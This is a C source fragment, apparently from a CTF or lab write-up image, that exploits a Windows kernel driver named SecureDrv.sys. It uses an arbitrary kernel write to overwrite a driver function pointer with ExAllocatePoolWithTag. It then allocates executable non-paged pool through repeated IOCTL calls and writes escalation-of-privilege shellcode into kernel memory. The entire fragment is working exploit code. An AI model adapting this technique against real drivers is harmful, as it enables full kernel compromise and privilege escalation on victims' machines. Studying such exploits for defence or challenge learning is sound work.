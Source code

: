 ```C
	hDevice = CreateFile(L"\\\\.\\SecureStorage", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
	if (hDevice == INVALID_HANDLE_VALUE) {
		printf("Failed to open device");
		return -1;
	}

	ULONG64 ntoskrnl = getDrvBase("ntoskrnl.exe");
	ULONG64 SecureDrv = getDrvBase("SecureDrv.sys");
	ULONG64 func_ptr = SecureDrv + 0x4050;

	HMODULE hNtos = LoadLibrary(L"ntoskrnl.exe");
	if (hNtos == NULL) {
		printf("LoadLibrary failed\n");
		exit(0);
	}

	ULONG64 ExAllocatePoolWithTag = (ULONG64)GetProcAddress(hNtos, "ExAllocatePoolWithTag");
	if (ExAllocatePoolWithTag == NULL) {
		printf("GetProcAddress Failed\n");
		exit(0);
	}

	ExAllocatePoolWithTag = ntoskrnl + (ExAllocatePoolWithTag - (ULONG64)hNtos);
	printf("ExAllocatePoolWithTag = %p\n", ExAllocatePoolWithTag);
	if (strlen((char*)&ExAllocatePoolWithTag) < 8) {
		printf("ExAllocatePoolWithTag contains null\n");
		return -1;
	}

	// Overwrite function pointer with address of ExAllocatePoolWithTag
	arbWrite((char*)func_ptr, (char*)(&ExAllocatePoolWithTag), 0x8);

	// Allocate executable region and retrive the address.
	DWORD NonPagedPoolExecute = 0;
	DWORD returned;
	ULONG64 shellAddr = 0;
	int i = 20;
	while (--i) {
		shellAddr = 0;
		DeviceIoControl(hDevice,
			IOCTL_ACT,
			(LPVOID)NonPagedPoolExecute, 0x1000,
			&shellAddr, 0,
			&returned, nullptr
		);
		shellAddr++;
		if (strlen((char*)&shellAddr) >= 8)
			break;
	}

	printf("Shellcode Addr = %p\n", shellAddr);
	if (i == 0) {
		printf("Failed to get null free pool addr\n");
		return -1;
	}



	shellAddr = shellAddr + 1;
	// Write shellcode to kernel pool 
	arbWrite((char*)shellAddr, EoP, 0x100);

```